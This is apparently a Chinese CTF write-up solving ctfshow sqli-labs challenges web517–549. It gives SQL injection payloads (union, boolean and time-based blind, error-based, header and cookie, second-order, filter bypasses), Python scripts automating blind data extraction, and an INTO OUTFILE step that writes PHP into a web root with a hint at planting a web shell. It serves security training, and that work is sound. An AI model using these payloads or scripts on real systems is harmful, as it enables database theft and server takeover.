---
title: "ctfshow入门sqli-labs二刷"
date: 2026-04-27T11:45:40+08:00
lastmod: 2026-04-27T11:45:40+08:00
summary: "复健一下"
url: "/posts/ctfshow入门sqli-labs二刷/"
categories:
  - "ctfshow"
tags:
  - "sqli-labs"
draft: false
---

# 前言

复现ISCTF做一道sqlite的order by注入的时候发现自己忘掉了很多sql注入的东西，所以刷刷题复健一下

# web517

## #UNION字符型单引号闭合

```html
Please input the ID as parameter with numeric value
```

直接传id参数，加上单引号会出现报错

```html
/?id=1' and '1'='1'--+	有回显
/?id=1' and '1'='2'--+	无回显
单引号闭合字符型注入

/?id=1' order by 3--+
/?id=1' order by 4--+	报错
字段数为3

/?id=' union select 1,2,3--+
回显位有2，3

/?id=' union select 1,2,(select group_concat(schema_name)from information_schema.schemata)--+
库名：ctfshow,ctftraining,information_schema,mysql,performance_schema,security,test

/?id=' union select 1,2,(select group_concat(table_name)from information_schema.tables where table_schema='ctfshow')--+
ctfshow库中表名：flag

/?id=' union select 1,2,(select group_concat(column_name)from information_schema.columns where table_name='flag')--+
flag表中字段名：id,flag

/?id=' union select 1,2,(select flag from ctfshow.flag)--+
ctfshow{a3813dcd-0099-4fed-badc-cae992b1cfd9}
```

# web518

## #UNION数字型

```html
/?id=-1 union select 1,2,(select flagac from ctfshow.flagaa)--+
```

# web519

## #UNION字符型单引号括号闭合

```html
/?id=-1') union select 1,2,(select flagaca from ctfshow.flagaanec)--+
```

# web520

## #UNION字符型双引号括号闭合

```html
/?id=-1") union select 1,2,(select flag23 from ctfshow.flagsf)--+
```

# web521

## #布尔字符型单引号闭合

```html
/?id=1' and '1'='2	无回显
/?id=1' and '1'='1	回显You are in...........
```

poc

```python
import requests

url = "http://c971ac5d-1f23-474a-b0e4-7e3545202aff.challenge.ctf.show/"
i = 0
target = ""

while True:
    i += 1
    head = 32
    tail = 127
    while head < tail:
        mid = (head + tail) // 2
        #payload = f"?id=1' and if(ascii(substr((select group_concat(schema_name)from information_schema.schemata),{i},1))>{mid},1,0)--+"
        #payload = f"?id=1' and if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema='ctfshow'),{i},1))>{mid},1,0)--+"
        #payload = f"?id=1' and if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name = 'flagpuck'),{i},1))>{mid},1,0)--+"
        payload = f"?id=1' and if(ascii(substr((select flag33 from ctfshow.flagpuck),{i},1))>{mid},1,0)--+"

        r = requests.get(url+payload)
        if "You are in..........." in r.text:
            head = mid + 1
        else:
            tail = mid

    if head != 32:
        target += chr(head)
        print(target)
    else:
        break
print(target)
```

# web522

## #布尔字符型双引号闭合

```python
import requests

url = "http://243f70e4-37f3-4340-a58c-5b5046b56849.challenge.ctf.show/"
i = 0
target = ""

while True:
    i += 1
    head = 32
    tail = 127
    while head < tail:
        mid = (head + tail) // 2
        #payload = f"?id=1\" and if(ascii(substr((select group_concat(schema_name)from information_schema.schemata),{i},1))>{mid},1,0)--+"
        #payload = f"?id=1\" and if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema='ctfshow'),{i},1))>{mid},1,0)--+"
        #payload = f"?id=1\" and if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name = 'flagpa'),{i},1))>{mid},1,0)--+"
        payload = f"?id=1\" and if(ascii(substr((select flag3a3 from ctfshow.flagpa),{i},1))>{mid},1,0)--+"

        r = requests.get(url+payload)
        if "You are in..........." in r.text:
            head = mid + 1
        else:
            tail = mid

    if head != 32:
        target += chr(head)
        print(target)
    else:
        break
print(target)
```

# web523

## #outfile单引号双括号闭合文件注入

传入参数提示使用outfile写文件

先判断闭合方式

```bash
/?id=1"--+ You are in.... Use outfile......
/?id=1'--+	You have an error in your SQL syntax
/?id=1')--+ You have an error in your SQL syntax
/?id=1'))--+ You are in.... Use outfile......
```

order by判断字段为3，然后就写文件吧

```html
/?id=1')) union select 1,"<?php phpinfo();?>",3 into outfile "/var/www/html/2.php"--+
```



后续写木马就行

# web524

## #布尔字符型单引号闭合

```python
import requests

url = "http://5d57e3c7-6bf0-43a9-a985-e044fcab2951.challenge.ctf.show/"
i = 0
target = ""

while True:
    i += 1
    head = 32
    tail = 127
    while head < tail:
        mid = (head + tail) // 2
        #payload = f"?id=1' and if(ascii(substr((select group_concat(schema_name)from information_schema.schemata),{i},1))>{mid},1,0)--+"
        #payload = f"?id=1' and if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema='ctfshow'),{i},1))>{mid},1,0)--+"
        #payload = f"?id=1' and if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name = 'flagjugg'),{i},1))>{mid},1,0)--+"
        payload = f"?id=1' and if(ascii(substr((select flag423 from ctfshow.flagjugg),{i},1))>{mid},1,0)--+"

        r = requests.get(url+payload)
        if "You are in..........." in r.text:
            head = mid + 1
        else:
            tail = mid

    if head != 32:
        target += chr(head)
        print(target)
    else:
        break
print(target)
```

# web525

## #时间字符型单引号闭合

这次回显都是一样的，打时间盲注

```html
/?id=1' and sleep(2)--+	延时2s，判断为单引号字符型
```

poc

```python
import time
import requests

url = "http://4bcf2e8c-10e5-402b-8036-b211469e8348.challenge.ctf.show/"
i = 0
target = ""

while True:
    i += 1
    head = 32
    tail = 127
    while head < tail:
        mid = (head + tail) // 2
        #payload = f"?id=1' and if(ascii(substr((select group_concat(schema_name)from information_schema.schemata),{i},1))>{mid},sleep(2),0)--+"
        #payload = f"?id=1' and if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema='ctfshow'),{i},1))>{mid},sleep(2),0)--+"
        #payload = f"?id=1' and if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name = 'flagug'),{i},1))>{mid},sleep(2),0)--+"
        payload = f"?id=1' and if(ascii(substr((select flag4a23 from ctfshow.flagug),{i},1))>{mid},sleep(2),0)--+"

        start_time = time.time()
        r = requests.get(url + payload)
        end_time = time.time()

        if  end_time - start_time > 1.5:
            head = mid + 1
        else:
            tail = mid

    if head != 32:
        target += chr(head)
        print(target)
    else:
        break
print(target)
```

# web526

## #时间字符型双引号闭合

```python
import time
import requests

url = "http://9f6dd7ab-e8a5-4ade-a822-1b0e828e2de7.challenge.ctf.show/"
i = 0
target = ""

while True:
    i += 1
    head = 32
    tail = 127
    while head < tail:
        mid = (head + tail) // 2
        #payload = f"?id=1\" and if(ascii(substr((select group_concat(schema_name)from information_schema.schemata),{i},1))>{mid},sleep(2),0)--+"
        #payload = f"?id=1\" and if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema='ctfshow'),{i},1))>{mid},sleep(2),0)--+"
        #payload = f"?id=1\" and if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name = 'flagugs'),{i},1))>{mid},sleep(2),0)--+"
        payload = f"?id=1\" and if(ascii(substr((select flag43s from ctfshow.flagugs),{i},1))>{mid},sleep(2),0)--+"

        start_time = time.time()
        r = requests.get(url + payload)
        end_time = time.time()

        if  end_time - start_time > 1.5:
            head = mid + 1
        else:
            tail = mid

    if head != 32:
        target += chr(head)
        print(target)
    else:
        break
print(target)
```

# web527

## #UNION字符型单引号闭合

一个登录页面，uname和passwd都存在sql注入

```html
passwd=1&submit=Submit&uname=1' union select 1,(select group_concat(schema_name)from information_schema.schemata)--+

passwd=1&submit=Submit&uname=1' union select 1,(select group_concat(table_name)from information_schema.tables where table_schema='ctfshow')--+

passwd=1&submit=Submit&uname=1' union select 1,(select group_concat(column_name)from information_schema.columns where table_name='flagugsd')--+

passwd=1&submit=Submit&uname=1' union select 1,(select flag43s from ctfshow.flagugsd)--+
```

# web528

## #UNION字符型双引号括号闭合

```html
passwd=1&submit=Submit&uname=1") union select 1,(select flag43as from ctfshow.flagugsds)--+
```

# web529

## #布尔字符型单引号括号闭合

还是得打盲注or报错注入

```python
import requests

url = "http://1e8d9f05-af60-4cab-a18f-52e0434c40ec.challenge.ctf.show/"
i = 0
target = ""

while True:
    i += 1
    head = 32
    tail = 127
    while head < tail:
        mid = (head + tail) // 2
        #payload = f"1') or if(ascii(substr((select group_concat(schema_name)from information_schema.schemata),{i},1))>{mid},1,0)-- "
        #payload = f"1') or if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema='ctfshow'),{i},1))>{mid},1,0)-- "
        #payload = f"1') or if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name = 'flag'),{i},1))>{mid},1,0)-- "
        payload = f"1') or if(ascii(substr((select flag4 from ctfshow.flag),{i},1))>{mid},1,0)-- "

        data = {
            'uname': payload,
            'passwd': '1'
        }
        r = requests.post(url, data=data)

        if "flag.jpg" in r.text:
            head = mid + 1
        else:
            tail = mid

    if head != 32:
        target += chr(head)
        print(target)
    else:
        break
print(target)
```

# web530

## #布尔字符型双引号闭合

```python
import requests

url = "http://be71f361-5f43-41c7-8692-96cd5e5f9137.challenge.ctf.show/"
i = 0
target = ""

while True:
    i += 1
    head = 32
    tail = 127
    while head < tail:
        mid = (head + tail) // 2
        #payload = f"1\" or if(ascii(substr((select group_concat(schema_name)from information_schema.schemata),{i},1))>{mid},1,0)-- "
        #payload = f"1\" or if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema='ctfshow'),{i},1))>{mid},1,0)-- "
        #payload = f"1\" or if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name = 'flagb'),{i},1))>{mid},1,0)-- "
        payload = f"1\" or if(ascii(substr((select flag4s from ctfshow.flagb),{i},1))>{mid},1,0)-- "

        data = {
            'uname': payload,
            'passwd': '1'
        }
        r = requests.post(url, data=data)

        if "flag.jpg" in r.text:
            head = mid + 1
        else:
            tail = mid

    if head != 32:
        target += chr(head)
        print(target)
    else:
        break
print(target)
```

# web531

## #布尔字符型单引号闭合

```python
import requests

url = "http://c02777e6-18ff-47f5-8785-d6b20577c6a8.challenge.ctf.show/"
i = 0
target = ""

while True:
    i += 1
    head = 32
    tail = 127
    while head < tail:
        mid = (head + tail) // 2
        #payload = f"1' or if(ascii(substr((select group_concat(schema_name)from information_schema.schemata),{i},1))>{mid},1,0)-- "
        #payload = f"1' or if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema='ctfshow'),{i},1))>{mid},1,0)-- "
        #payload = f"1' or if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name = 'flagba'),{i},1))>{mid},1,0)-- "
        payload = f"1' or if(ascii(substr((select flag4sa from ctfshow.flagba),{i},1))>{mid},1,0)-- "

        data = {
            'uname': payload,
            'passwd': '1'
        }
        r = requests.post(url, data=data)

        if "flag.jpg" in r.text:
            head = mid + 1
        else:
            tail = mid

    if head != 32:
        target += chr(head)
        print(target)
    else:
        break
print(target)
```

# web532

## #布尔字符型双引号括号闭合

```python
import requests

url = "http://ffd9572d-8917-4255-a339-8f5b35020985.challenge.ctf.show/"
i = 0
target = ""

while True:
    i += 1
    head = 32
    tail = 127
    while head < tail:
        mid = (head + tail) // 2
        #payload = f"1\") or if(ascii(substr((select group_concat(schema_name)from information_schema.schemata),{i},1))>{mid},1,0)-- "
        #payload = f"1\") or if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema='ctfshow'),{i},1))>{mid},1,0)-- "
        #payload = f"1\") or if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name = 'flagbab'),{i},1))>{mid},1,0)-- "
        payload = f"1\") or if(ascii(substr((select flag4sa from ctfshow.flagbab),{i},1))>{mid},1,0)-- "

        data = {
            'uname': payload,
            'passwd': '1'
        }
        r = requests.post(url, data=data)

        if "flag.jpg" in r.text:
            head = mid + 1
        else:
            tail = mid

    if head != 32:
        target += chr(head)
        print(target)
    else:
        break
print(target)
```

# web533

## #报错字符型单引号闭合

是一个重置密码的页面，但是这里用户名必须是一个已存在的用户

password是注入点，单引号闭合，可以打报错注入

```html
submit=Submit&uname=admin&passwd=1' and (select updatexml(1,concat(0x7e,(select group_concat(schema_name)from information_schema.schemata),0x7e),1))--+

submit=Submit&uname=admin&passwd=1' and (select updatexml(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema='ctfshow'),0x7e),1))--+

submit=Submit&uname=admin&passwd=1' and (select updatexml(1,concat(0x7e,(select group_concat(column_name)from information_schema.columns where table_name='flag'),0x7e),1))--+

submit=Submit&uname=admin&passwd=1' and (select updatexml(1,concat(0x7e,left((select flag4 from ctfshow.flag),30),0x7e),1))--+
submit=Submit&uname=admin&passwd=1' and (select updatexml(1,concat(0x7e,right((select flag4 from ctfshow.flag),30),0x7e),1))--+
```

# web534

## #UA头报错注入

回显了一个IP地址，打请求头注入，但这里不是用XFF而是用UA头

弱口令admin/admin后返回UA头信息，打UA头报错

UA头注入普遍来说就是登录成功后服务器会记录当前UA头的情况，所以可以看成是一个insert插入或update更新，那我们可以打报错注入

推测后台插入语句

```
$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
```

所以插入语句

```html
User-Agent: ' and updatexml(1,concat(0x7e,left((select flag4 from ctfshow.flag),30),0x7e),1) and '
User-Agent: ' and updatexml(1,concat(0x7e,right((select flag4 from ctfshow.flag),30),0x7e),1) and '
```

# web535

## #Rferer头报错注入

一样的，弱口令登录后返回Referer头信息，直接打请求头注入

```html
Referer: ' and updatexml(1,concat(0x7e,left((select flag4 from ctfshow.flag),30),0x7e),1) and '
Referer: ' and updatexml(1,concat(0x7e,right((select flag4 from ctfshow.flag),30),0x7e),1) and '
```

# web536

## #Cookie头报错注入

弱口令后返回的东西还挺多的



看到cookie中有一个uname，尝试打注入



出现报错，存在注入，直接打就行

```html
uname=admin' or updatexml(1,concat(0x7e,left((select flag4 from ctfshow.flag),30),0x7e),1)#
uname=admin' or updatexml(1,concat(0x7e,right((select flag4 from ctfshow.flag),30),0x7e),1)#
```

# web537

## #Cookie头base64编码报错注入1

其实没啥差别，就是换成base64编码了，可以用yakit去发包

```http
GET /index.php HTTP/1.1
Host: 9e511c84-912d-4264-93ec-d647caf081da.challenge.ctf.show
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: "Google Chrome";v="147", "Not.A/Brand";v="8", "Chromium";v="147"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/147.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://9e511c84-912d-4264-93ec-d647caf081da.challenge.ctf.show/
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: cf_clearance=ZuK66QChNGftyyiGS39xGqXjRvrgqwc7dpOpwNp8hgY-1747317016-1.2.1.1-SHtYMtmhonoQh3f9JFLxlX5e8ZPl2H.d.1t6d9JUkU8A48zWJ8kwl3L9eAExpcFayYenFfR8OxZ7NWlafUA3eW..1Ql.yEeMVQsO2dN0LeOWb9v9mBTw9f9lNiJBsuz0wNfBuxQoVypAzPhH9KeUpkB22hemlwS35.DR.pfloutzMUBCc7K.SMPWBv0hD22WPrXL6TOwx.8Vlv0exiJGfJydMDF8Fmgi7BwFDHfm8A27bqv1xzCh1xdEneeUo.dok_1cBQWYDpbP2ClHu0miDKBW2hnvhGXG7HbMovGYSE3c1QFXa0TPiCQYSEXDX_10Bnlxz9QrXZujCxO7ZGcQA_vDxzoYodJRpDZrLpAsbq8; uname={{base64enc(admin'))}}


```

不过这里是单引号括号闭合的，后面也是直接打就行了

```http
uname={{base64enc(admin') and updatexml(1,concat(0x7e,left((select flag4 from ctfshow.flag),30),0x7e),1)#)}}
uname={{base64enc(admin') and updatexml(1,concat(0x7e,right((select flag4 from ctfshow.flag),30),0x7e),1)#)}}
```

# web538

## #Cookie头base64编码报错注入2

这次换成双引号了，直接打就行

```http
uname={{base64enc(admin" and updatexml(1,concat(0x7e,left((select flag4 from ctfshow.flag),30),0x7e),1)#)}}
uname={{base64enc(admin" and updatexml(1,concat(0x7e,right((select flag4 from ctfshow.flag),30),0x7e),1)#)}}
```

# web539

## #union单引号闭合注释符过滤

注释符号都过滤了，用闭合单引号的方式去绕过

```html
?id=1' or '1'='1 正常回显查询信息
```

然后直接打就行

```html
?id=-1' union select 1,(select flag4 from ctfshow.flag),'3
```

# web540

## #二次注入

登录界面，还有注册和重置密码的选项，但是重置密码没啥用，注册选项传入特殊字符后不会触发sql注入，不过注册后有一个重置密码的操作，可以打二次注入

注册后然后在里面修改密码，猜测后台修改密码的语句是

```
$sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass'"
```

不过这里是无回显的，所以得打时间盲注

这里username得有一个已存在的用户，那就用admin吧

注册一个账号测试一下

```html
username=admin' and if(1<2,sleep(3),0)#
password=1
re_password=1
```

然后修改密码触发sql注入延时3s

那就写脚本去打吧

```python
import requests
import time

url1 = "http://31494def-ee05-4a84-8699-d08097920d0b.challenge.ctf.show/login_create.php"
url2 = "http://31494def-ee05-4a84-8699-d08097920d0b.challenge.ctf.show/pass_change.php"
url3 = "http://31494def-ee05-4a84-8699-d08097920d0b.challenge.ctf.show/login.php"
i = 0
target = ""
session = requests.session()


while True:
    i = i + 1
    head = 32
    tail = 127
    while head < tail:
        mid = (head + tail) // 2

        #注册页面传入恶意数据
        #payload1 = f"admin' and if(ascii(substr((select group_concat(schema_name)from information_schema.schemata),{i},1))>{mid},sleep(3),0)-- "
        #payload1 = f"admin' and if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema='ctfshow'),{i},1))>{mid},sleep(3),0)-- "
        #payload1 = f"admin' and if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='flag'),{i},1))>{mid},sleep(3),0)-- "
        payload1 = f"admin' and if(ascii(substr((select flag4 from ctfshow.flag),{i},1))>{mid},sleep(3),0)-- "
        data1 = {
            "username": payload1,
            "password": "1",
            "re_password": "1",
            'submit': 'Register'
        }
        r1 = session.post(url1, data=data1)

        #登录账号
        data2 = {
            "login_user" : payload1,
            "login_password" : "1",
            'mysubmit': 'Login'
        }
        r2 = session.post(url3, data=data2)

        #触发注入
        data3 = {
            "current_password" : "1",
            "password": "1",
            "re_password": "1",
            'submit': 'Reset'
        }

        start = time.time()
        r3 = session.post(url2, data=data3)
        end = time.time() - start
        if end > 2.5:
            head = mid + 1
        else:
            tail = mid

    if head != 32 :
        target += chr(head)
        print(target)
    else :
        break
print(target)
```

# Web541

## #过滤and和or

过滤了and和or，可以用管道符或者双写去绕过

然后打报错注入

```html
?id=-1'||updatexml(1,concat(0x7e,(select version()),0x7e),1)%23
?id=-1'||updatexml(1,concat(0x7e,(select group_concat(schema_name)from infoorrmation_schema.schemata),0x7e),1)%23
?id=-1'||updatexml(1,concat(0x7e,(select group_concat(table_name)from infoorrmation_schema.tables where table_schema='ctfshow'),0x7e),1)%23
?id=-1'||updatexml(1,concat(0x7e,(select group_concat(column_name)from infoorrmation_schema.columns where table_name='flags'),0x7e),1)%23
?id=-1'||updatexml(1,concat(0x7e,left((select flag4s from ctfshow.flags),30),0x7e),1)%23
```

# web542

## #过滤and和or

这道是数字型的，不需要单引号闭合

然后也是正常打联合注入

```html
?id=-1||1=1%23	有回显
?id=-1||1=2%23	无回显
?id=-1 union select 1,(select group_concat(table_name)from infoorrmation_schema.tables where table_schema='ctfshow'),3%23
?id=-1 union select 1,(select group_concat(column_name)from infoorrmation_schema.columns where table_name='flags'),3%23
?id=-1 union select 1,(select flag4s from ctfshow.flags),3%23
```

# web543

## #增加过滤space和注释

这次多了空格和注释的过滤，空格只能用括号绕过，而注释符也只能用闭合的方式绕过

```html
/?id=-1'||extractvalue(1,concat(0x7e,(select(version())),0x7e))||'
?id=-1'||extractvalue(1,concat(0x7e,(select(group_concat(schema_name))from(infoorrmation_schema.schemata)),0x7e))||'
?id=-1'||extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema)='ctfshow'),0x7e))||'
?id=-1'||extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(infoorrmation_schema.columns)where(table_name)='flags'),0x7e))||'
?id=-1'||extractvalue(1,concat(0x7e,left((select(flag4s)from(ctfshow.flags)),30),0x7e))||'
?id=-1'||extractvalue(1,concat(0x7e,right((select(flag4s)from(ctfshow.flags)),30),0x7e))||'
```

# web544

## #增加过滤space和注释

这次就用盲注吧，不过这里得用id=0，id=-1的结果是查得出来的

```python
import requests

url = "http://9f467e4e-ffd9-458e-a3e9-569ad77c2bc6.challenge.ctf.show/"
i = 0
target = ""

while True:
    i += 1
    head = 32
    tail = 127
    while head < tail:
        mid = (head + tail) // 2

        #payload = f"?id=0'||if(ascii(substr((select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema='ctfshow')),{i},1))>{mid},1,0)||'"
        #payload = f"?id=0'||if(ascii(substr((select(group_concat(column_name))from(infoorrmation_schema.columns)where(table_name='flags')),{i},1))>{mid},1,0)||'"
        payload = f"?id=0'||if(ascii(substr((select(flag4s)from(ctfshow.flags)),{i},1))>{mid},1,0)||'"
        r = requests.get(url + payload)
        
        if "Dumb" in r.text:
            head = mid + 1
        else :
            tail = mid
    if head != 32:
        target += chr(head)
        print(target)
    else:
        break
print(target)

```

# web545

## #单引号闭合增加过滤union和select

可以用双写或大小写绕过关键字过滤

```html
?id=1'||updatexml(1,concat(0x7e,left((sElect(flag4s)from(ctfshow.flags)),30),0x7e),1)||'
?id=1'||updatexml(1,concat(0x7e,right((sElect(flag4s)from(ctfshow.flags)),30),0x7e),1)||'
```

# web546

## #双引号闭合增加过滤union和select

这次是双引号闭合，但是这里依旧是把报错信息关了，所以得打盲注

# web547&548

## #单引号括号闭合增加过滤union和select

这次是单引号括号闭合

这里还是重点说一下为什么是单引号括号闭合，因为我刚好做到这的时候卡住了

假如后台语句是这样的

```sql
select * from user where id = '(\'' + $id +'\')
```

我一开始传入`0'||0||'`和`0'||1||'`后的效果和单引号闭合的效果是一样的，这是因为在sql语句拼接进去后

```sql
select * from user where id = ('0'||1||'')
```

里面会进行运算符的运算，最终会返回1或者0，但是在后续的union联合注入的时候则会报错，因为他本质上没有成功闭合掉前面的单引号括号，那么就会出现

```sql
select * from user where id = ('0' union union select select 1,2,3#')
```

此时就会报错，所以单引号不是这道题的闭合方式而是单引号括号



最终poc

```sql
?id=0') union union select select 1,(sElect flag4s from ctfshow.flags),3%23
```

# web549

## #单引号闭合HTTP 参数污染

这道题有点神奇，还是看看源码吧

```php
<?php
// including the Mysql connect parameters.
include("../sql-connections/sql-connect.php");

// disable error reporting
error_reporting(0);

// take the variables
if (isset($_GET['id'])) {
    $qs = $_SERVER['QUERY_STRING']; // 接受所有参数
    $hint = $qs;
    $id1 = java_implimentation($qs);
    $id = $_GET['id'];

    // echo $id1;
    whitelist($id1);

    // logging the connection parameters to a file for analysis.
    $fp = fopen('result.txt', 'a');
    fwrite($fp, 'ID:' . $id . "\n");
    fclose($fp);

    // connectivity
    $sql = "SELECT * FROM users WHERE id='$id' LIMIT 0,1";
    $result = mysql_query($sql);
    $row = mysql_fetch_array($result);

    if ($row) {
        echo "<font size='5' color='#99FF00'>";
        echo 'Your Login name:' . $row['username'];
        echo "<br>";
        echo 'Your Password:' . $row['password'];
        echo "</font>";
    } else {
        echo '<font color="#FFFF00">';
        print_r(mysql_error());
        echo "</font>";
    }
} else {
    echo "Please input the ID as parameter with numeric value";
}
```

漏洞点在这里

```php
    $qs = $_SERVER['QUERY_STRING']; // 接受所有参数
    $hint = $qs;
    $id1 = java_implimentation($qs);
    $id = $_GET['id'];

    // echo $id1;
    whitelist($id1);
```

跟进看看java_implimentation函数的处理

```php
// The function below immitates the behavior of parameters when subject to HPP (HTTP Parameter Pollution).
function java_implimentation($query_string)
{
	$q_s = $query_string;
	$qs_array= explode("&",$q_s);


	foreach($qs_array as $key => $value)
	{
		$val=substr($value,0,2);
		if($val=="id")
		{
			$id_value=substr($value,3,30); 
			return $id_value;
			echo "<br>";
			break;
		}

	}

}
```

